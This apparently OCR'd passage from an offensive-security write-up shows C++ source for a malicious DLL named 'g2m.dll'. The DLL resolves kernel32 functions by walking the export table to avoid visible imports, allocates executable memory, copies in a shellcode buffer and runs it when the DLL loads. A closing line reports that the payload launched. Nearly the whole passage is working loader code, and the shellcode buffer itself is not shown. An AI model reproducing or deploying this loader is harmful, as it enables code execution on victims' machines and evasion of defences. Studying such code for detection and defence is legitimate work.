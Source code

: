 ```

for (int i = 0; i < pExportDirectory->NumberOfNames; ++i)
    {
PCSTR pFunctionName = (PSTR)((PBYTE)kernel32Address + pAddressOfNames[i]);
if (!strcmp(pFunctionName, "GetModuleHandleA"))
        {
pGetModuleHandleA = (PGetModuleHandleA)((PBYTE)kernel32Address + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);

        }
if (!strcmp(pFunctionName, "GetProcAddress"))
        {
pGetProcAddress = (PGetProcAddress)((PBYTE)kernel32Address + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);

        }
    }
HMODULE hKernel32 = pGetModuleHandleA("kernel32.dll");

PVirtualAllocEx funcVirtualAllocEx = (PVirtualAllocEx)pGetProcAddress(hKernel32, "VirtualAllocEx");

PGetCurrentProcess funcGetCurrentProcess = (PGetCurrentProcess)pGetProcAddress(hKernel32, "GetCurrentProcess");

PWriteProcessMemory funcWriteProcessMemory = (PWriteProcessMemory)pGetProcAddress(hKernel32, "WriteProcessMemory");

void* Process = funcGetCurrentProcess();
PVOID allocatedMem = funcVirtualAllocEx(Process,0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if(allocatedMem == nullptr){
exit(EXIT_FAILURE);
    }
SIZE_T bytes;
funcWriteProcessMemory(Process, allocatedMem, (LPCVOID)&buf, sizeof(buf), &bytes);
((void(*)())allocatedMem)();
ExitProcess(0);
}

BOOL APIENTRY DllMain( HMODULE hModule,DWORD  ul_reason_for_call,LPVOID lpReserved){
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH: {
MessageBoxW(NULL, L"Hello from g2m.dll", L"Entry", MB_ICONEXCLAMATION | MB_OK);
            execute();
}break;
    }
return TRUE;
}
```

As we can see and can observe, our shellcode has successfully worked and launched our payload.
